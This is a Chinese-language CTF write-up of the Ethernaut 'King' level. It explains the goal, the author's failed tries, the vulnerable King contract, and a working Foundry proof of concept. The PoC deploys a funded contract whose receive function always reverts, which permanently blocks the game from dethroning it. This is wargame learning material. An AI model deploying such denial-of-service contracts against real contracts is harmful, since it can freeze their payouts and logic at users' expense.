


## King

### 目标：

防止合约夺回王权。

### 思路：

- 刚开始本来打算在脚本中写一个`receive`函数，加一个`revert`，收到交易后就会回滚，结果是成功运行，但是提交实例时会失败，说明王权还是被成功夺回（应该是脚本并不会部署到链上，并且King返回的钱会回到钱包里，但是小狐狸钱包中不可能调用revert，因此向源代码中转账并不会触发`revert`，写的收款函数无任何作用）



- 创造一个攻击合约，目的是和脚本分开， 否则交易不能回滚，在攻击合约中，创建一个`receive`函数，然后在其中设置一个`revert`，但出现了一个新问题，要想成为源代码中的King，必须往里打钱，但是攻击合约中的余额为0，还无法往攻击合约里进行转账，因为合约中有`revert`
  **解决方法(X)**：我在`receive`中设置了一个`require(msg.value <= 0.001 ether, "Failed");`，删除`revert`，我认为只要往攻击合约中转0.001 ether，其他人只要大于这个数交易就会进行回滚，这样我就会一直成为合约的King，但仍然可以成功运行，提交还是失败，原因是没有仔细读题，`msg.value = prize`也可以夺取王权
- 现在的关键是向攻击合约中转账就会触发`revert`，如果不转账攻击合约里就没有钱，无法向源代码中转账夺取王位。**我询问了ai如何在部署合约的时候就往里存款**，结果是使用构造函数即可（WTF 102知识点）

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

### poc：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/King.sol";

contract Middle_contract{
    King _king = King(payable(0x6412d0304beb03b4b61D5772C2B4D7ce8be58576));

    constructor() payable{}

    function hack() external{
        (bool success, ) = address(_king).call{value: 0.001 ether}("");
    }
    receive() external payable{
        revert("Failed");
    }
}

contract Attack is Script{  
    function run() external{

        vm.startBroadcast();

        Middle_contract middle_contract = new Middle_contract{value: 0.001 ether}();
        middle_contract.hack();

        vm.stopBroadcast();
    }
}
```


